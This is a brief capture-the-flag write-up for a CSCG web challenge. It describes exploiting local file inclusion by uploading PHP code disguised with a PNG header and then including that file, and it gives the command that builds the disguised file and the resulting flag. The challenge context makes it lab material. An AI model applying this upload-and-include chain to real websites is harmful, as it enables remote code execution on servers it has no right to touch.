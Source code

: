 Local file inclusion:
http://lfi.hax1.allesctf.net:8081/index.php?site=<ANY PHP>

Upload php code with prepended `png-header` and `.png` extension and include that file.

`$ cat png-header flag.php > flag.png`

Flag: `CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}`

